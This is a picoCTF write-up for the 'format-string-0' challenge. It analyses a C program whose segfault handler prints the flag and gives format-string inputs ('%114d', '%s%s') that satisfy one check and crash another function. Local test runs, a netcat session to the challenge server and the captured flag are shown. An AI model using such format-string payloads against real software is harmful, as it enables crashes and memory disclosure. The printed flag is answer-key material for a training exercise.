 - Now I went and analysed the code from `format-string-0.c`
    - We can see that there is a signal handler that is running after the program starts which literally prints the `flag` when the signal `SIGSEGV` is recieved which is the signal for `Segmentation Fault`
    - We can also observe that `printf` is being called with a string literal in both the `serve_patrick` and `serve_bob` functions on lines `68` and `98` respectively which is potentially helpful
    - The main function calls `serve_patrick` function, which requires the burger choice `choice1` to be in the given options and the `printf(choice1)` to be greater than `2*BUFSIZE` which is `2*32` so we choose `Gr%114d_Cheese` as our input as the `%114d` expands to a string of 114 spaces
    - Then this calls the `serve_bob` function where to exploit it we can use the choice `Cla%sic_Che%s%steak` which tries to call add the strings in places where `%s` is there but the strings do not exist and it should crash the program and give us a segfault

- Next I created a `flag.txt`, made the execution of `format-string-0` possible and ran it to test my exploit

```bash
$ chmod +x format-string-0
$ touch flag.txt
$ echo "SUCCESS" > flag.txt
```

```bash
$ ./format-string-0
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
SUCCESS
```

- Finally, I connected to the picoctf server using netcat and used the payloads to get the flag
```bash
$ nc mimas.picoctf.net 62394
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
